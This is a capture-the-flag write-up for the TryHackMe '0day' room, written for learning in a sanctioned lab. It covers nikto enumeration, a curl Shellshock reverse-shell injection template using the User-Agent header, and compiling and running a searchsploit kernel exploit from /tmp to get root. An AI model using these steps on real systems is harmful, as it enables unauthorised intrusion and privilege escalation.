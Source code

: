 ```yaml
---
description: 0day is a medium difficulty room in Tryhackme.
cover: .gitbook/assets/Capture d’écran 2023-07-28 194425 (1).png
coverY: -83.38427464008859
---
```


# 0day



## Enumeration:



### initial\_scan:

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can see 2 ports open 22 for **ssh** and 80 for **HTTP**

### vulnerability\_scan:

using nikto by the command: nikto -h \<IP address>, we can make a scan of the vulnerabilities that the website might be vulnerable to.&#x20;

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

The website appears to be vulnerable to shellshock , which makes sense since the room description says: exploit ubuntu, like a turtle "as in shell" in a hurricane  "as in shock". so no need to do any more enumeration.

Awesome! :tada: We found the vulnerability , now let's learn how to exploit it by searching for the CVE provided in the scan results : "**CVE-2014-6271**"



### Reverse shell / USER.TXT flag:

We can exploit the shellshock vuln in many ways including metasploit, personally i prefere not to because starting Metasploit takes a long time :(&#x20;

one of the ways i found from this [source](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) is we can grab a reverse shell using this vulnerability:

{% code fullWidth="true" %}
```sh
curl -H 'User-Agent: () { :; };<your reverse shell>' <the vulnerable website>
```
{% endcode %}

and if you are lazy like me you can craft your reverse shell easily using this [website](https://www.revshells.com/).

let's open a listening port to catch the reverse shell.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Navigating through the machine we can easily find the **user.txt** flag

&#x20;

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>





### PRIV ESC / ROOT.TXT FLAG:

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

we can clearly see the OS is old . using a simple searchsploit search we can find this exploit.



<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

let's upload the exploit into the machine in /tmp because it is usually writable.

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption><p>creating a server in local machine</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption><p>downloading the exploit in the target machine</p></figcaption></figure>

make sure to enter this command in order for the compiler to work in the target machine

```sh
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

then&#x20;

```sh
/usr/bin/gcc 37292.c -o exploit
chmod +x exploit
./exploit
```

\


<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

and just like that we have obtained the root flag ! :tada:
